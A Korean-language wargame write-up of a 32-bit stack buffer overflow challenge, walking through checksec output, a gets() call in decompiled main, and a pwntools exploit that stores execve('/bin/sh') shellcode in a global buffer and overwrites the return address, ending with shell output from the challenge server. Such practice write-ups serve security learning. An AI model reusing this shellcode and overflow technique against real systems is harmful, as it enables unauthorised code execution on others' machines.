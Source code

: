# 내 버퍼가 흘러넘친다!!!

일단 바이너리 파일을 확인해보자.<br>

```c
kimdong@ubuntu  ~/Wargame  file prob1
prob1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=5d3d07390dded54d6181762da26c7a17fd49522e, not stripped

kimdong@ubuntu  ~/Wargame  checksec prob1
[*] '/home/kimdong/Wargame/prob1'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX disabled
   PIE:      No PIE (0x8048000)
   RWX:      Has RWX segments

```
`Pratial RELRO`외에는 다른 메모리 보호 기법이 걸려있지않고, 32bit ELF파일이다.<br>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+0h] [ebp-14h]

  setvbuf(stdout, 0, 2, 0);
  printf("Name : ");
  read(0, &name, 0x32u);
  printf("input : ");
  gets(&s);
  return 0;
}
```
main문을 보면 `Name : `을 출력하고 read로 입력값을 받은 뒤에, `input : `을 출력하고, gest를 통해서 입력값을 받는 형식이다.<br>
 gets는 s라는 변수에 받고, name같은 경우는 main문에 선언자가 없다.<br>

 ```c
.bss:0804A060 name            db    ? ;               ; DATA XREF: main+29↑o
.bss:0804A061                 db    ? ;
 ```

`name`은 bss영역에 선언된 변수이다.<br> 따라서, name변수에 shellcode를 넣어주고,  gets를 통해 return address를 name의 주소로 바꿔주면 될것같다.<br>

```c
gef➤  disas main
Dump of assembler code for function main:
   0x080484cb <+0>:	push   ebp
   0x08048510 <+69>:	lea    eax,[ebp-0x14]
   0x08048513 <+72>:	push   eax
   0x08048514 <+73>:	call   0x8048390 <gets@plt>
   0x08048519 <+78>:	add    esp,0x4
   0x0804851c <+81>:	mov    eax,0x0
   0x08048521 <+86>:	leave  
   0x08048522 <+87>:	ret  
```
gdb에서 보연 name의 buffer의 크기는 20byte이고, `stack frame pointer`까지 더미로 씌워야 하므로, 24바이트의 더미값을 주고, return값에 name변수의 주소를 주면 해결할수있을것같다.<br>

---

## Exploit Code

```c
from pwn import *
p = remote("ctf.j0n9hyun.xyz", 3003)
payload1 = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"

payload2 = "A"*24
payload2 += p32(0x0804A060)

p.recvuntil('Name : ')
p.sendline(payload1)
p.recvuntil('input : ')
p.sendline(payload2)
p.interactive()
```

```c
kimdong@ubuntu  ~/Wargame  python prob_ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3003: Done
[*] Switching to interactive mode
$ ls
flag
main
$ cat flag
HackCTF{}
```

## END !
